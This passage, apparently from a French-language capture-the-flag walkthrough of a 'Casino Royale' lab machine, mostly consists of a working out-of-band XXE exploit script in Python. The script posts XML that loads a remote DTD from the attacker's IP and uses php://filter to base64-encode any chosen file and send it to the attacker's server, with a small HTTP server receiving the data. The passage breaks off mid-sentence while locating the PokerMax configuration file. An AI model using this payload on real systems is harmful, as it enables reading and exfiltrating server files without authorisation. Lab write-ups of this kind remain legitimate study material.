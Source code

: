 ```python
    print("serving at port", PORT)                                                                                     
    httpd.serve_forever()
```

Si le path ne correspond pas, il agit comme un serveur normal en livrant le fichier demandé.

De l'autre côté j'ai un code pour l'exploitation qui me permet d'exfiltrer le fichier de mon choix :

```python
import sys

import requests
from requests.exceptions import RequestException

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = "192.168.242.1"
filename = sys.argv[1]

xml = """<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % remote SYSTEM "http://{}/valid.dtd">
%remote; %intern; %trick; ]>
<xml><test>hello</test></xml>""".format(my_ip)

dtd = """<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource={}">
<!ENTITY % intern "<!ENTITY &#37; trick SYSTEM 'http://{}/xoxo/%payload;'>">""".format(filename, my_ip)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://casino-royale.local/ultra-access-view/main.php",
        data=xml,
        headers={"Content-Type": "text/xml"},
    )
except RequestException as exception:
    print("Error occurred:", exception)
else:
    text = response.text.strip()
    print(text)
```

De cette façon, je demande un fichier dans un terminal et regarde l'output dans un autre.

En regardant le Github du projet `PokerMax` je détermine om se trouve normalement le fichier de configuration :
